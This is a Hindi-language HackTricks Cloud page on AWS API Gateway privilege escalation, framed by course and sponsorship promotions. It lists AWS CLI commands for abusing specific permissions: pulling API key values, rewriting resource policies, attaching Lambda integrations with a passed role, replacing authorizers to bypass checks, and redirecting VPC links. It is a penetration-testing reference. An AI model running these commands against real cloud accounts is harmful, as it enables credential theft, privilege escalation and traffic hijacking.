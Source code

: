 # AWS - Apigateway Privesc

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github repos में PRs सबमिट करके।

</details>

## Apigateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

इस अनुमति के साथ आप क्षेत्र के अनुसार कॉन्फ़िगर किए गए API कुंजियाँ उत्पन्न कर सकते हैं।
```bash
aws --region <region> apigateway create-api-key
```
**संभावित प्रभाव:** इस तकनीक के साथ आप प्राइविलेज इस्केलेशन नहीं कर सकते हैं लेकिन आप संवेदनशील जानकारी तक पहुँच सकते हैं।

### `apigateway:GET`

इस अनुमति के साथ आप कॉन्फ़िगर की गई API कुंजियों को प्राप्त कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**संभावित प्रभाव:** इस तकनीक के साथ आप प्राइवेस्क नहीं कर सकते हैं लेकिन आप संवेदनशील जानकारी तक पहुंच सकते हैं।

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

इन अनुमतियों के साथ API की संसाधन नीति को संशोधित करना संभव है ताकि आप इसे कॉल करने और API गेटवे के पहुंच का दुरुपयोग करने के लिए अपने आप को पहुंच दे सकें (जैसे कि एक कमजोर lambda को आह्वान करना)।

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**संभावित प्रभाव:** आम तौर पर, इस तकनीक के साथ आप सीधे privesc नहीं कर पाएंगे लेकिन आपको संवेदनशील जानकारी तक पहुंचने का अवसर मिल सकता है।

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
जाँच की आवश्यकता है
{% endhint %}

एक हमलावर जिसके पास `apigateway:PutIntegration`, `apigateway:CreateDeployment`, और `iam:PassRole` अनुमतियाँ हैं, **एक मौजूदा API Gateway REST API में एक नया एकीकरण जोड़ सकता है जिसमें एक IAM भूमिका संलग्न है**। हमलावर फिर **Lambda फ़ंक्शन को ट्रिगर कर सकता है ताकि उसमें अनियमित कोड का कार्यान्वयन हो सके और संभावित रूप से IAM भूमिका से संबंधित संसाधनों तक पहुंच सके**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: लैम्बडा फंक्शन के IAM रोल से जुड़ी संसाधनों तक पहुंच।

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
टेस्टिंग की आवश्यकता
{% endhint %}

एक हमलावर जिसके पास `apigateway:UpdateAuthorizer` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API गेटवे ऑथराइज़र को संशोधित** कर सकता है ताकि सुरक्षा जांचों को छलना किया जा सके या API अनुरोध किए जाने पर विचारशील कोड को क्रियान्वित कर सकता है।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: सुरक्षा जांचों को छलकर जानकारीहीन पहुंच API संसाधनों तक।

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
जरूरत परीक्षण की
{% endhint %}

एक हमलावर जिसके पास `apigateway:UpdateVpcLink` अनुमति है, **एक मौजूदा VPC लिंक को संशोधित कर सकता है ताकि एक विभिन्न नेटवर्क लोड बैलेंसर पर इशारा करें, संभावित रूप से निजी API ट्रैफिक को अनधिकृत या दुर्भाग्यपूर्ण संसाधनों पर पुनर्निर्देशित करते हैं**।
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**संभावित प्रभाव**: निजी API संसाधनों तक अनधिकृत पहुंच, API ट्रैफिक का अंतर्दृष्टि या विघटन।

<details>

<summary><strong>AWS हैकिंग सीखें जीरो से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
